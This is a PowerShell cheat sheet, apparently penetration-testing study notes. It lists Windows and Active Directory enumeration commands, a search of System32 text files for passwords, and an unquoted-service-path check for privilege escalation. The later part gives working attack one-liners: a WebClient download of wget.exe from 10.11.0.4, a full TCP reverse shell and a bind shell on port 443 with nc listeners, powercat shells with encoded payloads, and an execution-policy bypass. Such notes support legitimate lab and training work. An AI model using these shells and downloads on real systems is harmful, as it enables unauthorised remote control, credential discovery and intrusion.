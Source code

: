 ### Get installed software
Get-WmiObject -Class Win32_Product

### Get Antivirus Product Status
Get-CimInstance -Namespace root/SecurityCenter2 -ClassName AntivirusProduct

### In table format, display processes and include the CommandLine, ProcessName, and SessionID. Filter to show SessionID of 2 and ProcessName of "svchost.exe" only. Sort the results alphabetically by CommandLine.
gps | Select-Object -Property ProcessName,SessionID | Sort-Object -Property ProcessName -Descending | Where-Object SessionID -EQ 2 | Where-Object ProcessName -EQ svchost.exe | Format-Table

### Services with unquoted executable paths that start automatically can lead to escalating privileges. How many services fit that description on this machine?
Get-WmiObject -class Win32_Service -Property StartMode,PathName | Where {$_.StartMode -EQ "Auto" -and $_.PathName -notlike '"*'} | select StartMode,PathName

### Get current logged in user
query user /server:$server
Get-WmiObject -Class win32_computersystem
(Get-CimInstance -ClassName Win32_ComputerSystem).Username
(Get-WMIObject -ClassName Win32_ComputerSystem).Username


### Get file under path using hash value
Get-FileHash -Path C:\Windows\System32\* -Algorithm MD5 | findstr /i "6CECC33A62E935F5E8665B9597479A36"

### Find string in txt files under path by "password" string
Select-String -Path C:\Windows\System32\*.txt -Pattern 'password'

### Powershell to get shell from 192.168.79.79 to 192.168.79.80(username:offensive)
192.168.79.79:Enable-PSRemoting,Set-Item wsman:\localhost\client\trustedhosts 192.168.79.80,Enter-PSSession -ComputerName 192.168.79.80 -Credential offensive

### Domain
###### Domain Users and Groups
Get-ADUser Jim  
Get-ADUSer -filter *  
Get-ADUser Morgan -Properties *(get full info of aduser)  
Get-ADComputer APPSRV01  
Get-ADGroup -filter 'GroupScope -eq Global/Domain Local/Universal'  
Get-ADGroup -filter * -properties * |select SAMAccountName, Description|Export-Csv adGroupList.csv  

###### Enumerate Domain group member
Get-ADGroupMember ThirdGroup -recursive 

### Get windows firewall rules
Get-NetFirewallRule

### Retrieve domain user full info
Get-ADUser -Identity Susan -Properties "*"

### Retrieve domain computer full info
Get-AdComputer -Identity APPSRV01 -Properties *

### display all loaded functions
dir function:

### display one specific module location
dir (Get-Module -ListAvailable FlagModule).ModuleBase

### download file
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"

### reverse shell
```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.11.0.4',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
sudo nc -lnvp 443
```
### bind shell
```
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"
nc -nv 10.11.0.22 443
```
### load powercat, bindshell, reverse shell, encrypted payloads
```
Import-Module .\powercat.ps1
powercat -l -p 443 -e cmd.exe
powercat -c 10.11.0.4 -p 443 -e cmd.exe
powercat -c 10.11.0.4 -p 443 -e cmd.exe -ge > encodedreverseshell.ps1
powershell.exe -E en_payload
```
### Allow unsigned scripts execute
```
powershell -ExecutionPolicy Bypass -File admin_login.ps1
```
